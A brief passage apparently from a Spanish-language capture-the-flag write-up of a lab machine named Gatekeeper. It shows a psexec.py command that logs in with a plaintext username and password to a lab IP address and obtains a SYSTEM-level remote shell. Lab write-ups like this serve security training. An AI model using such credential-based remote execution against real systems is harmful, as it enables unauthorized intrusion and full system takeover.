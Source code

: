 ### 3. Shell

```sql
psexec.py mayor:8CL7O1N78MdrCIsV@10.10.139.67
```

![Shell como nt authority\system](/assets/images/shellRootGatekeeper.png)

